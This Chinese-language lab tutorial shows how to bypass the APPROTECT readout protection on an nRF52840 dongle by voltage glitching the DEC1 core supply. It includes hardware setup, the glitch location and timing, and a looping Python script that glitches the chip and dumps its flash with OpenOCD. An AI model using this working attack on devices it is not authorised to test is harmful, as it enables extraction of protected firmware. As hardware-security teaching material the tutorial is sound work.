






# 实验环境搭建


## 推荐硬件设备清单

- nRF52840 QIAAD0 开发板（USB Dongle）
- Pico 示波器
- PowerShorter 电压短路故障注入设备
- FlexHolder 柔性探针台
- Jlink 调试器
- 杜邦线若干


## 软件清单

- [Jlink 软件及驱动](https://www.segger.com/downloads/jlink/)
- [nRF-Command-Line-Tools](https://www.nordicsemi.com/Products/Development-tools/nRF-Command-Line-Tools)
- [openocd](https://github.com/xpack-dev-tools/openocd-xpack/releases)
- [Pico 示波器软件](https://www.picotech.com/downloads)
- [zadig](https://zadig.akeo.ie/)

------

# APPROTECT 介绍与开启

nRF52 系列芯片为保护开发者固件不被非法读取，提供了 APPRTOECT 固件读保护机制，开启读保护后无法使用 SWD 接口读取芯片内的固件


## 开启保护方法

先使用 Jlink 连接 目标 SWD 接口

| **Jlink** |
| --------- | --------- |
| VDD       | VT/VREF   |
| GND       | GND       |
| SWCLK     | TCK/SWCLK |
| SWDIO     | TMS/SWDIO |


使用官方命令行工具（nRF-Command-Line-Tools）执行如下命令，对开发板重新上电复位后生效：

```
nrfjprog -f nRF52 --memwr 0x10001208 --val 0xFFFFFF00
```


再次连接芯片已无法查看 Flash




## 解除保护方法

不管是 Jflash 还是官方命令行工具都提供解除保护的功能（代价是清除芯片内固件，以达到保护固件不被非法读取的目的）

JFlash 软件在探测到保护开启时直接点击 Yes 即可解除保护



官方命令行工具提供 ```nrfjprog -f NRF52 --recover``` 命令解除保护


## APPROTECT 介绍

通过阅读[芯片手册第 42 页](https://infocenter.nordicsemi.com/pdf/nRF52840_PS_v1.2.pdf)可以得知：APPROTECT 寄存器位于 0x10001208 默认值 0xFF 表示关闭保护，若写为 0x00 则表示开启保护，因此官方工具开启保护实际是将该寄存器写为了 0x00

芯片上电后会读取该寄存器的值，若为 0x00 则配置保护机制，不允许通过 SWD 接口访问芯片内固件，因此我们可以在芯片上电时对其进行故障注入，绕过该配置流程，使得调试接口保持开启状态

------

# 故障注入绕过 APPROTECT 读保护


## 电压毛刺注入物理位置：CPU 核心供电

电压故障注入攻击点位于芯片附近的一颗小电容的右侧，该点连接到芯片 DEC1 引脚（电容左侧通过万用表可测得为 GND）




## 电压毛刺注入时间位置

使用示波器以 DEC1 上升沿作为触发，观察 DEC1 处电压波形，可以看到存在一个小的电压下降沿，压降大约 100~200mv，毛刺就打在这个小下降沿附近




## 其他问题

1、如何控制设备重启

​	答：通过 PowerShorter 设备的 GPIO 为 Dongle 供电，Python 代码控制 GPIO

2、打哪个地方的电压、如何打

​	答：打 DEC1；短接 DEC1 和 GND 使其电压短暂拉低

3、什么时候打故障

​	答：以 GPIO 供电上升沿作为触发，设置延时，故障打在 DEC1 下降沿附近

4、怎么判断是否打成功了

​	答：openocd 连接 SWD 读取固件，dump 成功则故障注入成功（注：Openocd 调用 jlink 需要使用 zadig 软件安装 winusb 驱动）


**配合 Flex Holder 柔性探针台可以免去焊接，直接将小电容右侧的 DEC1 引脚引出**





## 成功波形参考

A 通道(蓝色波形)为供电电压；B 通道(红色波形)为 DEC1 电压

DEC1 的下降沿位置恰好被故障毛刺命中，不再表现为下降沿，但并不是没有下降沿就为成功




## 攻击脚本

**推荐使用 Jupyter Lab 进行实验**

导入 Python 库

```
from power_shorter import *
import time, os, random, subprocess
import serial
import faultviz
```

初始化设备

```
ps_dev = PowerShorter('com55')
```

测试设备上下电

```
ps_dev.gpio(GPIO.GPIO1, 0)
time.sleep(1)
ps_dev.gpio(GPIO.GPIO1, 1)
```

初始化 faultviz 服务与表单

```
faultviz.start_view_service(port=12345) 
vt = faultviz.ViewWidget()
```

定义攻击函数

```
def nrf52_attack():
    ps_dev.gpio(GPIO.GPIO1, 0)
    time.sleep(1)
    glitch_delay = random.randint(158500, 158700) # 设置毛刺延迟范围
    glitch_pulse = random.randint(100, 300)       # 设置毛刺宽度范围
    ps_dev.engine_cfg(Engine.E1, [(0, glitch_delay), (1, glitch_pulse), (0, 1)], TRIGGER_MODE.RISE)    # 设置毛刺延时及宽度
    ps_dev.arm(Engine.E1)        # 激活毛刺
    ps_dev.gpio(GPIO.GPIO1, 1)   # 设备上电
    time.sleep(0.5)              # 延迟一段时间 等待攻击完成
    s = ps_dev.state(Engine.E1)  # 检查毛刺状态
    if s == "glitched":
        res, result = subprocess.getstatusoutput('openocd -f interface/jlink.cfg -c "transport select swd" -f target/nrf52.cfg -c "init;dump_image nrf_flash.bin 0x0 0x10000;exit"')  # 通过 OpenOCD dump 固件，若成功则表示已绕过 APPROTECT
        if "Could not find MEM-AP to control the core" in result:
            status = "Normal"
        elif "No J-Link device found" in result:
            status = "No Jlink"
        elif res == 0:
            status = "Success"
        else:
            status = "Unknown"
        vt.update(state = status, delay = glitch_delay, pulse = glitch_pulse, result = result, res = res)  # 更新故障结果到表单
        return res
    else:
        print("no trigger")
```

执行一次攻击函数，检查代码是否有问题

```
nrf52_attack()
```

查看表单，检查刚才的攻击是否将结果添加到表单中

```
vt.show()
```

写个循环，直到成功绕过 APPROTECT 才停止攻击，循环过程中故障参数及结果会不断添加到 vt 表单中，配合示波器调整参数，优化毛刺位置

```
doAttack = 1
while(doAttack):
    doAttack = nrf52_attack()
```


